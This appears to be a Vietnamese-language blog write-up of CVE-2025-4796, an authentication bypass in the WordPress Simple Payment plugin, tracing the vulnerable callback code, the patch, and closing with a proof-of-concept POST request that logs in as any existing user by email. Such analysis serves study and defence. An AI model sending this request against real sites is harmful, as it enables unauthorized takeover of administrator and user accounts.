

<!--more-->

## CVE & Basic Info

* **CVE ID**: [CVE-2025-4796](https://www.cve.org/CVERecord?id=CVE-2025-4796)
* **Vulnerability Type**: Bypass Vulnerability
* **Affected Versions**: 1.3.6-2.3.8
* **Patched Versions**: 2.3.9
* **CVSS severity**: High (9.8)
* **Required Privilege**: Unauthenticated
* **Product**: [WordPress Simple Payment Plugin](https://wordpress.org/plugins/simple-payment/)

## Requirements
* **Local WordPress & Debugging**
    * [Virtual Machine](https://w41bu1.github.io/posts/2025-08-21-wordpress-local-and-debugging/)
    * [Docker](https://w41bu1.github.io/posts/2025-10-22-wordpress-local-and-debugging-docker/)
* **Plugin Version** - **Simple Payment**:  
    * `2.3.8` – **vulnerable**  
    * `2.3.9` – **patched**
* **Diff Tool (diff)** → [**Meld**](https://meldmerge.org/) hoặc bất kỳ công cụ diff nào.

## Analysis 
Plugin đã đăng ký action hook:

```php
add_action( 'parse_request', [ $this, 'callback' ] );
```

`parse_request` là action hook được gọi rất sớm trong quá trình xử lý request, sau khi WordPress đã phân tích URL (query vars) và trước khi truy vấn database (`WP_Query`) được thực thi.

Khi có request đến, hàm `callback` sẽ được gọi để xử lý request tương ứng.

```php {title="simple-payment-plugin.php v2.3.8" data-open=true hl_lines=[]}
function callback() {
    $callback = parse_url( $this->callback );
    $info     = parse_url( $_SERVER['REQUEST_URI'] );

    if ( isset( $info['path'], $callback['path'] ) && $info['path'] != $callback['path'] ) return;

    $ops = explode( '/', $info['path'] );

    if ( !( isset( $_REQUEST[ self::OP ] ) || ( count( $ops ) == 4 && strtolower( $ops[1] ) == 'sp' ) ) ) return;

    $url = null;

    $engine = isset( $_REQUEST['engine'] )
        ? sanitize_text_field( $_REQUEST['engine'] )
        : ( isset( $ops[2] ) && $ops[2] ? $ops[2] : self::param( 'engine' ) );

    $op = isset( $_REQUEST[ self::OP ] )
        ? strtolower( sanitize_text_field( $_REQUEST[ self::OP ] ) )
        : strtolower( isset( $ops[3] ) ? $ops[3] : '' );

    try {
        switch ( $op ) {
            case self::OPERATION_SUCCESS: // success
                ...
                try {
                    if ( isset( $_REQUEST['payment_id'] ) && $_REQUEST['payment_id'] ) {
                        $params = array_merge( $this->fetch( $_REQUEST['payment_id'] ), $_REQUEST );
                    } else {
                        $params = $_REQUEST;
                    }

                    $this->post_process( $params, $engine );
                    do_action( 'sp_payment_success', $params );

                } catch ( Exception $e ) {
                    $status[ self::OP ] = self::OPERATION_ERROR;
                    if ( trim( $e->getCode() ) )    $status['status']  = trim( $e->getCode() );
                    if ( trim( $e->getMessage() ) ) $status['message'] = self::set_message( trim( $e->getMessage() ) );

                    $url = $this->error(
                        isset( $status ) ? $status : $_REQUEST,
                        isset( $status['status'] ) ? $status['status'] : null,
                        $e->getMessage()
                    );
                    break;
                }
                break;
            ...
        }
    } catch ( Exception $e ) {
        ...
    }
    ...
}
```

Trong `callback()`, plugin kiểm tra URL hiện tại có khớp với URL callback đã cấu hình hay không. Nếu không khớp thì thoát ngay (return).

```php
if ( isset( $info['path'], $callback['path'] ) && $info['path'] != $callback['path'] ) return;
```

Plugin phân tích đường dẫn (`REQUEST_URI`) thành các phần (`$ops`) và kiểm tra điều kiện hợp lệ của request:
* Có tham số `op` trong `$_REQUEST`, hoặc
* URL có cấu trúc dạng `/a/b/`.

```php
if ( !( isset( $_REQUEST[ self::OP ] ) || ( count( $ops ) == 4 && strtolower( $ops[1] ) == 'sp' ) ) ) return;
```

Plugin xác định:
* `$engine`: lấy từ request, từ URL, hoặc từ cấu hình mặc định.
* `$op`: operation hiện tại.

```php
$engine = isset( $_REQUEST['engine'] )
        ? sanitize_text_field( $_REQUEST['engine'] )
        : ( isset( $ops[2] ) && $ops[2] ? $ops[2] : self::param( 'engine' ) );

$op = isset( $_REQUEST[ self::OP ] )
    ? strtolower( sanitize_text_field( $_REQUEST[ self::OP ] ) )
    : strtolower( isset( $ops[3] ) ? $ops[3] : '' );
```

Khi search với từ khóa `SimplePayment\\Engines`, ta thấy được danh sách các engine được khai báo:


Plugin xử lý theo `$op` bằng switch.
Khi `$op` là `success`:
* Nếu có `payment_id`, plugin gọi `$this->fetch()` để lấy thông tin thanh toán và gộp với dữ liệu request.
* Nếu không có `payment_id`, sử dụng trực tiếp dữ liệu từ `$_REQUEST`.

Sau khi chuẩn bị xong `$params`, plugin gọi `post_process($params, $engine)`

```php {title="simple-payment-plugin.php v2.3.8" data-open=true hl_lines=[]}
function post_process( $params = [], $engine = null ) {
    $this->setEngine( $engine ? : $this->param( 'engine' ) );
    $params = apply_filters( 'sp_payment_post_process_filter', $params, $this->engine );
    if ( parent::post_process( $params ) ) {
      $args = [
        'status' => self::TRANSACTION_SUCCESS
      ];
      if ( $this->engine->confirmation_code) $args['confirmation_code'] = $this->engine->confirmation_code;
      if ( $this->engine->payments) $args['payments'] = $this->engine->payments;
      if ( $this->engine->amount) $args['amount'] = $this->engine->amount;
      self::update( $this->payment_id ? : $this->engine->transaction, $args , !$this->payment_id );
      $a = $this->param('user_create');
      $b = $this->param('user_create_step');
      if ( $this->param('user_create') != 'disabled' && $this->param('user_create_step') == 'post' && !get_current_user_id()) $this->create_user($params);
      do_action( 'sp_payment_post_process', $params, $this->engine );
      return( true );
    }
    return( false );
}
```

Hàm thực hiện set engine (theo các engine đã được khai báo) sau đó check điều kiện:

```php
parent::post_process( $params )
```

```php {title="SimplePayment.php v2.3.8" data-open=true hl_lines=[]}
function post_process($params = []) {
    if ($this->engine->post_process($params)) {
      $this->status = self::TRANSACTION_SUCCESS;
      // TODO: run sucess webhook if necessary -
      return(true);
    } else {
      $this->status = self::TRANSACTION_FAILED;
      // TODO: run failed webhook if necessary.
    }
    return(false);
}
```

Tiếp tục gọi `$this->engine->post_process( $params )`

```php {title="engine_file v2.3.8" data-open=true hl_lines=[]}
public function post_process($params) {
    $this->transaction = isset( $_REQUEST['lowprofilecode'] ) ? $_REQUEST['lowprofilecode'] : $params[ 'transaction_id' ];
    $response = $_REQUEST;
    $this->save([
      'transaction_id' => $this->transaction,
      'url' => ':post_process',
      'status' => isset($response['ResponseCode']) ? $response['ResponseCode'] : $response['response_code'],
      'description' => isset($response['Description']) ? $response['Description'] : null,
      'request' => json_encode($params),
      'response' => json_encode($response)
    ]);
    if ($params['Operation'] == 2 && isset($params['payments']) && $params['payments'] == "monthly") {
      if ($this->param('recurr_at') == 'post' && $this->param('reurring') == 'provider') return($this->recur_by_provider($params));
    }
    // TODO: update confirmation code con status
    //$this->confirmation_code = $response['confirmation_code'];
    return($_REQUEST['ResponeCode'] == 0);
}
```

Hàm thực hiện:
* Lưu transaction, request, response.
* Xử lý logic recurring (nếu có).
* Trả về `true` nếu giao dịch thành công.

Nếu điều kiện trả về là `true`, hàm tiếp tục kiểm tra điều kiện tạo user:

```php
if (
    $this->param( 'user_create' ) !== 'disabled' &&
    $this->param( 'user_create_step' ) === 'post' &&
    ! get_current_user_id()
) {
    $this->create_user( $params );
}
```

* `user_create ≠ disabled`
* `user_create_step = post`
* Chưa có user đăng nhập (`!get_current_user_id()`)

Ta có thể thay đổi 2 option này trong Admin Dashboard:


Khi thỏa tất cả điều kiện trên, hệ thống gọi: 

```php
$this->create_user( $params );
```

```php {title="simple-payment-plugin.php v2.3.8" data-open=true hl_lines=[]}
function create_user($params) {
    $email = isset($params[self::EMAIL]) ? $params[self::EMAIL] : false;
    if (!$email) return(false);
    $user_id = email_exists($email);
    if (!$user_id) {
        $username = isset($params[self::USERNAME]) ? $params[self::USERNAME] : false;
        $user_id = $username ? username_exists($username) : false;
        if (!$user_id) {
          $username = isset($params[self::FIRST_NAME]) ? $params[self::FIRST_NAME] : false;
          if (!$username) $username = isset($params[self::LAST_NAME]) ? $params[self::LAST_NAME] : false;
          if (!$username) $username = isset($params[self::FULL_NAME]) ? explode(' ', $params[self::FULL_NAME])[0] : false;
          if (!$username) $username = wp_generate_password(12, false);
          $username = $this->generate_unique_username(strtolower($username));
          if ($this->param('user_create_step') == 'register') $user_id = register_new_user($username, $email);
          else $user_id = wp_create_user($username, wp_generate_password(12, false), $email);
          do_action('sp_user_created', $user_id, $params);
        }
    }
    if ($user_id) wp_set_auth_cookie($user_id);
    return($user_id);
}
```

Hàm sẽ kiểm tra email lấy từ request. Nếu email đã tồn tại trong hệ thống, hàm sẽ lấy ID của user tương ứng và gán cho biến `$user_id`.

Điều thực sự nguy hiểm là khi `$user_id` đã có giá trị, hàm `wp_set_auth_cookie()` sẽ được gọi để thiết lập cookie đăng nhập cho user tương ứng, đồng nghĩa với việc người dùng có thể được đăng nhập tự động mà không cần xác thực thêm. => `Bypass Vulnerability`

Bản vá `v2.3.9` đã loại bỏ nguyên nhân gây bypass đăng nhập bằng cách thay đổi cách gọi `wp_set_auth_cookie()`.

```php {title="simple-payment-plugin.php v2.3.9" data-open=true hl_lines=[]}
function create_user( $params ) {
    $email = isset( $params[ self::EMAIL ] ) ? $params[ self::EMAIL ] : false;
    if ( ! $email ) return false;

    $user_id = email_exists( $email );

    if ( ! $user_id ) {
        $username = isset( $params[ self::USERNAME ] ) ? $params[ self::USERNAME ] : false;
        $user_id  = $username ? username_exists( $username ) : false;

        if ( ! $user_id ) {
            ...
            wp_set_auth_cookie( $user_id );
        }
    }

    if ( $user_id ) {
        // TODO: Login should be handled by developer implementation.
        // wp_set_auth_cookie( $user_id );
        do_action( 'sp_user_created', $user_id, $params, true );
    }

    return $user_id;
}
```

Chỉ set cookie cho user mới.

## Flow


## Proof of Concept (PoC)
Gửi request:

```http
POST /a/b/ HTTP/1.1
Host: localhost

op=success&engine=Cardcom&user_create_step=post&user_create=enable&email=admin@gmail.com
```

## Conclusion

CVE-2025-4796 xảy ra do plugin xử lý callback thanh toán qua `parse_request` mà không có cơ chế xác thực. Attacker có thể gửi request giả mạo để kích hoạt luồng `OPERATION_SUCCESS` và gọi `create_user()`.

Trong phiên bản ≤ 2.3.8, nếu email tồn tại, plugin lấy `user_id` và gọi trực tiếp `wp_set_auth_cookie()`, cho phép đăng nhập vào tài khoản bất kỳ mà không cần xác thực, dẫn đến Authentication Bypass.

Phiên bản 2.3.9 đã loại bỏ việc tự động đăng nhập với user đã tồn tại, khắc phục nguyên nhân gây lỗ hổng.

## Key Takeaways

* Không xử lý logic nhạy cảm trên request không xác thực.
* Không gọi `wp_set_auth_cookie()` dựa trên dữ liệu người dùng cung cấp.
* Tách biệt rõ ràng giữa tạo user và đăng nhập.
* Cẩn trọng khi sử dụng các hook chạy sớm như `parse_request`.

## References
[Bypass Vulnerability](https://patchstack.com/academy/wordpress/vulnerabilities/privilege-escalation/)

[WordPress Simple Payment Plugin 1.3.6-2.3.8 is vulnerable to a high priority Bypass Vulnerability](https://patchstack.com/database/wordpress/plugin/simple-payment/vulnerability/wordpress-simple-payment-plugin-1-3-6-2-3-8-authentication-bypass-vulnerability) 